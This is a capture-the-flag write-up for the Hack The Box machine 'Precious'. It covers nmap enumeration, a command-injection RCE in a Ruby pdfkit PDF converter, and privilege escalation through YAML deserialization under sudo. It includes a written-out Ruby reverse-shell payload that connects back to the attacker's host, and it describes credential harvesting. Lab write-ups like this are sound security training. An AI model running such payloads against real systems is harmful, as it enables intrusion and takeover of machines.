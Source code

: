 ```yaml
---
title: "[HTB] Machine: Precious"
date: 2023-05-20T00:00:00+06:00
description: "[HTB] Machine: Precious"
menu:
  sidebar:
    name: "[HTB] Machine: Precious"
    identifier: htb-machine-precious
    parent: htb-machines
    weight: 10
hero: images/precious.png
tags: ["HTB"]
---
```


# Precious
## Enumeration
### Nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sC -sV -T4 10.10.11.189         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 11:09 EDT
Nmap scan report for 10.10.11.189 (10.10.11.189)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.35 seconds
```
- Let's check port ```80```

![](./images/1.png)

- It's service that converts Web Pages to PDF
  - Let's supply anything and see what it returns
  - I am running Burp Suite in the background
- So after supplying any url, we receive a pdf
  - So I tried figuring out the backend service, or library that was responsible for conversion
  - I took the response data from Burp Suite and used [Cyber Chef](https://gchq.github.io/CyberChef/) to decode it

![](./images/2.png)

- We see the package and version
  - After a little bit of googling, I got

![](./images/3.png)

- We have an RCE 
  - Let's test it

![](./images/4.png)

- I set up tcpdump to listen to ICMP
  - And we get a response

![](./images/5.png)

- Let's get a foothold
## Foothold
- I used [revshells.com](https://www.revshells.com/) to create a payload for Ruby (It was revealed in Burp Suite responses and [pdfkit](https://github.com/pdfkit/pdfkit) is a Ruby package)

![](./images/6.png)

```
http://10.10.16.37:8000/index.html?p=#{'%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.37",6666))'`'}
```

- Try the payload
  - and We get a reverse shell

![](./images/7.png)

- Now we need to privesc
  - After running a [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  - We see that we have another user
```
╔══════════╣ Users with console
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash                                                                                                                                                                                            
root:x:0:0:root:/root:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```
## User
- After checking the home directory of the ```ruby``` user
  - I found ```henry``` credentials
  - And ```su``` to ```henry```

![](./images/8.png)

- Let's get root
## Root
- The first thing I check is ```sudo``` privileges
  - And we get a result

![](./images/9.png)

- Let's check the file
  - According to comments it loads the list of dependencies in the ```dependencies.yaml``` and compares to the ones installed
  
![](./images/10.png)

- After googling
  - We find that there is a [yaml injection](https://snyk.io/blog/finding-yaml-injection-with-snyk-code/)
  - or https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml

![](./images/11.png)

- Check the version

![](./images/12.png)

- So let's try
  - Firstly, it seems like the script searches for ```dependencies.yaml``` from where we execute the script
  - So we can create ```dependencies.yaml``` anywhere where we have privileges
  - Copy the payload from the links above

![](./images/13.png)

- Run the command
  - And we get our flag

![](./images/14.png)
